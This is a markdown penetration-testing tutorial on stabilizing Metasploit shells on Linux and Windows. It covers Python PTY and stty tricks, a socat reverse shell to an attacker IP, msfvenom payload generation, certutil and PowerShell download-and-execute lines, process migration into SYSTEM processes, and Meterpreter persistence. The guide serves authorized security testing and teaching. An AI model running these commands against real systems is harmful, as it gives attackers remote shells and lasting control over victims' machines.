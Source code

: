 ```markdown
# Obtaining Stable & Fully Interactive Shells in Metasploit/Meterpreter

A common frustration during penetration tests is landing a shell that is unstable, lacks job control (e.g., `Ctrl+C` kills the session), or doesn't support features like tab-completion or arrow keys for command history. This guide covers techniques to upgrade these basic shells to fully interactive, stable TTYs.

## 1. The Core Problem: Non-Interactive vs. Interactive Shells

*   **Non-Interactive Shell (`cmd`/`sh`):** The initial shell you get is often a simple, non-interactive process. It can execute commands but lacks a TTY (Teletypewriter), which is responsible for managing the terminal session, job control, and special characters.
*   **Symptoms of a Non-Interactive Shell:**
    *   No command history (arrow keys don't work).
    *   `Ctrl+C` kills the entire session instead of the foreground process.
    *   Programs like `su`, `ssh`, `vim`, or `top` do not work correctly or at all.
    *   No tab-completion.
    *   Commands with fancy output (`nano`, `menuconfig`) appear garbled.

## 2. The Ultimate Goal: A Fully Interactive TTY

The goal is to emulate a real terminal (TTY). This can be achieved using several methods, depending on the target environment and available tools.

## 3. Stabilizing Linux/Unix Shells

After gaining a basic shell (e.g., via a `php/web_delivery` or `reverse_tcp` payload), use one of these methods.

### Method 1: The Canonical Python PTY Method
This is the most reliable method on systems with Python installed.
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
To further upgrade it to a fully featured terminal:
```bash
# Step 1: Use Python to spawn a PTY
python -c 'import pty; pty.spawn("/bin/bash")'

# Step 2: Background the shell with Ctrl+Z
# Step 3: On YOUR machine, set your terminal to pass through stty settings
stty raw -echo; fg

# Step 4: Press Enter once or twice. Then, inside the new shell, set the terminal type and sane stty settings.
export TERM=xterm-256color
stty rows 50 columns 120
```

### Method 2: Using `script`
Some systems have the `script` utility, which can be surprisingly effective.
```bash
script -q /dev/null /bin/bash
```

### Method 3: Using socat or nc
This is the most stable method but requires uploading a binary.
1.  **On Your Attacker Machine:**
    ```bash
    # Create a symlink to socat for easy download
    sudo cp $(which socat) .
    sudo python3 -m http.server 80
    ```
2.  **On The Target Machine:**
    ```bash
    # Download socat
    wget http://<YOUR_IP>/socat -O /tmp/socat; chmod +x /tmp/socat

    # Set up a listener on the target that connects your input to a TTY
    # Attacker: nc -lvnp 443
    /tmp/socat TCP:<YOUR_IP>:443 EXEC:"/bin/bash",pty,stderr,setsid,sigint,sane
    ```
    This will give you a fully interactive shell on your netcat listener.

### Method 4: Metasploit's Built-in Upgrade
If you have a `shell` session, you can often use a Metasploit post module.
```bash
msf6 > use post/multi/manage/shell_to_meterpreter
msf6 post(shell_to_meterpreter) > set SESSION <your_session_id>
msf6 post(shell_to_meterpreter) > run
```
This will create a new Meterpreter session, which is much more stable than a basic shell.

## 4. Stabilizing Windows Shells

Windows shells (`cmd.exe`) are generally more stable than Unix non-TTY shells but lack many features. The best option is almost always to **migrate to a Meterpreter session**.

### Method 1: Upgrade to Meterpreter (Recommended)
If you have a regular `windows/shell/reverse_tcp` session, use the same post module as for Linux.
```bash
msf6 > use post/multi/manage/shell_to_meterpreter
msf6 post(shell_to_meterpreter) > set SESSION <your_session_id>
msf6 post(shell_to_meterpreter) > run
```

### Method 2: Use PowerShell to Invoke a Better Payload
You can use the existing shell to download and execute a Meterpreter payload.
1.  **Generate a Meterpreter Payload:**
    ```bash
    msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<YOUR_IP> LPORT=443 -f exe -o met.exe
    ```
2.  **Host it on a web server:**
    ```bash
    sudo python3 -m http.server 80
    ```
3.  **In the basic Windows shell, download and execute it:**
    ```cmd
    certutil -urlcache -split -f http://<YOUR_IP>/met.exe met.exe
    met.exe
    ```
    Or, using PowerShell from a `cmd` shell:
    ```cmd
    powershell -c "Invoke-WebRequest -Uri 'http://<YOUR_IP>/met.exe' -OutFile 'met.exe'; Start-Process met.exe"
    ```

## 5. Advanced Meterpreter Stability: Persistence & Migration

A Meterpreter session is great, but it can die if the exploited process crashes. To make it stable and persistent:

### Technique 1: Process Migration
**Always migrate your Meterpreter session to a stable, long-running process.**
```bash
meterpreter > getpid # Shows your current process ID
meterpreter > ps      # Lists running processes

# Look for stable processes like:
# - services.exe (Runs as SYSTEM, very stable)
# - svchost.exe   (Numerous, system processes)
# - lsass.exe     (Runs as SYSTEM, but may be protected by EDR/AV)
# - explorer.exe  (Runs as user, stable if user is logged in)

meterpreter > migrate <PID_OF_SERVICES.EXE>
```
**Benefits:** Your session survives if the original exploited application (e.g., a web server) is restarted. It also runs under the security context (privileges) of the new process.

### Technique 2: Running Persistence
If you have the appropriate privileges, use Meterpreter's persistence script to survive reboots.
```bash
meterpreter > run persistence -h
# Example: This connects back every 10 seconds on port 443 via HTTPS, using the default AutoRunScript
meterpreter > run persistence -U -i 10 -p 443 -r <YOUR_IP>
```
**Note:** This is noisy and easily detectable by modern EDR solutions. Use with caution.

## 6. Summary & Preferred Workflow

1.  **Initial Compromise:** Get any kind of shell using Metasploit (`reverse_tcp`, `web_delivery`, etc.).
2.  **Immediate Upgrade:**
    *   **Linux:** Use the Python PTY method for a semi-stable TTY.
    *   **Windows / Universal:** Run `post/multi/manage/shell_to_meterpreter` to get a Meterpreter session.
3.  **Stabilize:**
    *   **Meterpreter:** Immediately `migrate` to a stable system process like `services.exe`.
    *   **Linux TTY:** Use the full `python3 + stty` method or upload `socat` for the best stability.
4.  **Persistence (Optional):** Use Meterpreter's `persistence` script or other methods only if necessary for the goals of the assessment.
```